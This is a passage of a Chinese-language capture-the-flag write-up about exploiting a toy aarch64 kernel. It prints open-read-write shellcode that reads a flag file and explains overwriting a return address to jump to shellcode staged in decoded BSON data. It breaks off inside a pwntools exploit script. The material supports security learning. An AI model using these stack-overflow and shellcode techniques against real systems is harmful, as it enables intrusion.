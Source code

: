 [![](https://p3.ssl.qhimg.com/t010f680334608f0c66.png)](https://p3.ssl.qhimg.com/t010f680334608f0c66.png)

Hijack to ORW
-------------

由于 OS 内核并没有 PIE、NX、Canary 等保护，可以跳回栈上执行 shellcode。同时，OS 并未实现`execve`等 pop shell 系统调用，只能通过 orw 读 flag。

```
shellcode = '''ldr x0,=0x676c662f // /flg
mov x1, 0x0        // open mode
stp x0, x1, [sp]
mov x0, sp
mov x5, 0x340      // SYS_open
blr  x5

mov x1, 0xf940     // buf
mov x2, 0x36       // size
mov x5, 0x34c      // SYS_read
blr  x5

mov x0, 0xf940     // buf
mov x5, 0x310      // SYS_write
blr  x5'''
```

`strcpy`对`\x00`截断，需要找另外一处存放有 shellcode 的内存空间

[![](https://p1.ssl.qhimg.com/t016095f2003873d6a7.png)](https://p1.ssl.qhimg.com/t016095f2003873d6a7.png)

注意到 main 方法中的 base64_decode 会将 decode 后的 bson 数据存放到一个栈地址上，返回到此处就行

[![](https://p0.ssl.qhimg.com/t0159bd52a9854707bc.png)](https://p0.ssl.qhimg.com/t0159bd52a9854707bc.png)

shellcode 布置在`0xfc46`

[![](https://p4.ssl.qhimg.com/t010a390d3408010395.png)](https://p4.ssl.qhimg.com/t010a390d3408010395.png)

将`process_cc`返回地址覆盖为`0xfc46`

[![](https://p1.ssl.qhimg.com/t01c71bafbd2fd0e3ee.png)](https://p1.ssl.qhimg.com/t01c71bafbd2fd0e3ee.png)

get flag~

[![](https://p4.ssl.qhimg.com/t01e0ae40140e432f49.png)](https://p4.ssl.qhimg.com/t01e0ae40140e432f49.png)

Script
------

完整 EXP

```
from pwn import *
import bson

context.arch = 'aarch64'

obj = {
    'CVC': 111,
    'MON': 11,
    'YR': 2021
}
bs = bson.dumps(obj)

bs = bs[:-1]
```